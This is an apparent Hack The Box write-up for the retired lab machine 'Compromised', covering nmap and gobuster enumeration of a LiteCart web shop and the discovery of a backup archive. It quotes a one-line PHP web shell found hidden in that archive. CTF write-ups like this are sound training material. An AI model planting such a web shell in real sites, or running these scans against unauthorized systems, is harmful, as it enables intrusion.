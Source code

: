 # Compromised

This is the write-up for the box Compromised that got retired at the 23rd January 2021.
My IP address was 10.10.14.7 while I did this.

Let's put this in our hosts file:
```markdown
10.10.10.207    compromised.htb
```

## Enumeration

Starting with a Nmap scan:

```
nmap -sC -sV -o nmap/compromised.nmap 10.10.10.207
```

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 6e:da:5c:8e:8e:fb:8e:75:27:4a:b9:2a:59:cd:4b:cb (RSA)
|   256 d5:c5:b3:0d:c8:b6:69:e4:fb:13:a3:81:4a:15:16:d2 (ECDSA)
|_  256 35:6a:ee:af:dc:f8:5e:67:0d:bb:f3:ab:18:64:47:90 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-title: Legitimate Rubber Ducks | Online Store
|_Requested resource was http://10.10.10.207/shop/en/
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Checking HTTP (Port 80)

The web site looks like a webshop that sells rubber ducks.
On the top left it says **[LiteCart]**(https://www.litecart.net), which is an open-source E-Commerce platform built with PHP and jQuery.

Lets search for hidden directories and PHP files with **Gobuster**:
```
gobuster -u http://10.10.10.207 dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php
```

It finds the index directory _/backup_ with an archive file called _a.tar.gz_.

Extracting archive:
```
tar -xf a.tar.gz
```

It extracts the folder _shop_ which seems to have the source code for the webshop.
In there is also a hidden file _.sh.php_ that consists of one line of code that is used to gain command execution:
```
<?php system($_REQUEST['cmd']); ?>
```
